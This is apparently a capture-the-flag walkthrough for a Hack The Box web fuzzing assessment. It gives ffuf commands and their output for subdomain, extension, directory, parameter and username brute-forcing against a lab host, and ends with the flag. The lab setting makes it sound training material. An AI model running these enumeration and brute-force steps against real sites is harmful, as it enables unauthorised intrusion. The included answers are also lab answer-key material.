 # Skills Assessment - Web Fuzzing

You are given an online academy's IP address but have no further information about their website. As the first step of conducting a Penetration Test, you are expected to locate all pages and domains linked to their IP to enumerate the IP and domains properly.

Finally, you should do some fuzzing on pages you identify to see if any of them has any parameters that can be interacted with. If you do find active parameters, see if you can retrieve any data from them.

## Walkthrough

### Run a sub-domain/vhost fuzzing scan on '\*.academy.htb' for the IP shown above. What are all the sub-domains you can identify? (Only write the sub-domain name)

```bash
sudo nano /etc/hosts
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://94.237.55.163:47406/ -H 'Host: FUZZ.academy.htb' -fs 985
#test                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2457ms]
#archive                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 207ms]
#faculty                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 209ms]
```

### Before you run your page fuzzing scan, you should first run an extension fuzzing scan. What are the different extensions accepted by the domains?

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:47406/indexFUZZ
#.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 201ms]
#.php7                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 204ms]
#.phps                   [Status: 403, Size: 287, Words: 20, Lines: 10, Duration: 1923ms]
```

### One of the pages you will identify should say 'You don't have access!'. What is the full page URL?

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:47406/FUZZ -recursion -recursion-depth 1 -e .php,.php7,.phps -t 80 -fs 287
#courses
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:47406/courses/FUZZ -recursion -recursion-depth 1 -e .php,.php7,.phps -t 80 -fs 287
#linux-security.php7     [Status: 200, Size: 774, Words: 223, Lines: 53, Duration: 208ms]
http://faculty.academy.htb:47406/courses/linux-security.php7
```

### In the page from the previous question, you should be able to find multiple parameters that are accepted by the page. What are they?

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://faculty.academy.htb:47406/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs 774
#user                    [Status: 200, Size: 780, Words: 223, Lines: 53, Duration: 200ms]
#username                [Status: 200, Size: 781, Words: 223, Lines: 53, Duration: 208ms]
```

### Try fuzzing the parameters you identified for working values. One of them should return a flag. What is the content of the flag?

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://faculty.academy.htb:47406/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781
#harry
curl http://faculty.academy.htb:47406/courses/linux-security.php7 -X POST -d 'username=harry' -H 'Content-Type: application/x-www-form-urlencoded'
HTB{w3b_fuzz1n6_m4573r}
```
